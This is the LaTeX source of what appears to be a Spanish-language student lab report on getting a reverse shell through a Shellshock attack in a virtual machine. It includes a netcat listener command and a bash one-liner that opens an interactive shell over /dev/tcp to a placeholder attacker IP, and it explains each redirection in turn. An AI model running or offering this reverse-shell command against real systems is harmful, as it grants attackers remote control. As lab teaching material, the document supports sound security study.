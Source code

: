 \documentclass[10pt,a4paper]{article}
\begin{document}
\section{Tarea 5: Obtención de un Shell inverso a través de un ataque Shellshock}

El primer paso para la creación de un Shell inverso, es utilizar el comando \emph{netcat} (o nc) para escuchar una conexión en el puerto indicado. \\

\texttt{nc -l 9090 -v <- Escucha en el puerto 9090}

Este comando se bloquea esperando una conexión. Ahora, se debe conseguir ejecutar un bash en el equipo atacado para crear una conexión TCP con el puerto 9090 del equipo atacante y crear el shell inverso. El shell es el siguiente: 

\texttt{/bin/bash -i > /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 0<\&1 2>\&1}

Explicación del comando anterior:\\

\begin{itemize}
	\item \texttt{/bin/bash -i ->} Con \emph{-i} se indica que el shell es interactivo
	\item \texttt{> /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 ->} Se redirige salida de la máquina atacada a la conexión TCP de la máquina atacante.
	\item \texttt{0<\&1 ->} Se utiliza dispositivo de salida estándar como entrada estándar. Como la salida está redirigida a TCP, el shell obtendrá entrada de esta conexión.
	\item \texttt{2>{}\&1 ->} La salida de error se redirige a salida, es decir, a la conexión TCP.
\end{itemize} 

Al ejecutar el comando en la máquina deseada, este se conecta con el proceso \emph{netcat} de la máquina atacante, permitiendo el shell interactivo de forma remota, tal y como se muestra en la siguiente imagen.
\\

\begin{figure}[h]
	\centering
	\includegraphics[scale=0.6]{images/Tarea_5.png}
	\caption{\emph{Reverse shell} realizado sobre una máquina virtual}
	\label{fig:tarea5_shell_inverso}
\end{figure}
\end{document}

